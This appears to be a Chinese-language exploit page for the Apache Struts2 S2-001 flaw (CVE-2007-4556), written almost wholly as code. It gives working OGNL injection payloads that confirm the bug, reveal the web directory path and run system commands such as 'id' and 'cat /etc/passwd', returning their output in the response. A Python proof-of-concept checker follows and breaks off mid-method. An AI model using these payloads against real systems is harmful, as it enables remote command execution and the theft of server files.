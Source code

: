 #### 检测漏洞是否存在

```java
%{78912+1235}
```
> 如果返回结果包含80147,则存在漏洞

#### 获取web目录

```java
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

#### 执行单一命令

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"id"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
#### 执行组合命令

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

### POC

```python
#!/usr/bin/env python3

import re
import requests

class S2_001_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-001漏洞,又名CVE-2007-4556漏洞',
            'description': 'Struts2 S2-001漏洞可执行任意命令, 影响范围为: WebWork 2.1 (with altSyntax enabled), WebWork 2.2.0 - WebWork 2.2.5, Struts 2.0.0 - Struts 2.0.8',
            'date': '2007-07-16',
            'type': 'RCE'
        }
        self.url = url
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Content-Type': "application/x-www-form-urlencoded",
        }
        self.check_data = {
            'username': 12,
            'password': '%{78912+1235}'
        }
    
    def run(self):
        """
        检测是否存在漏洞

        :param:

```